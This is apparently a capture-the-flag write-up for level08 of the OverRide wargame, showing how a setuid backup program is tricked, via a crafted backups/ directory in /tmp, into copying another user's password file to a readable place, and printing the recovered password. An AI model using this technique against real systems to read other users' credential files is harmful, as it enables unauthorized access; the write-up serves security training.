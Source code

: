 # File argument exploit

Test programme

```bash
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

The programme take argument

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

let's try in `/tmp`

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups//home/users/level09/
level08@OverRide:/tmp$ ~/level08 ~level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log  
level08@OverRide:/tmp$ cat backups/.log 
LOG: Starting back up: /home/users/level09/.pass
LOG: Finished back up /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log  
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
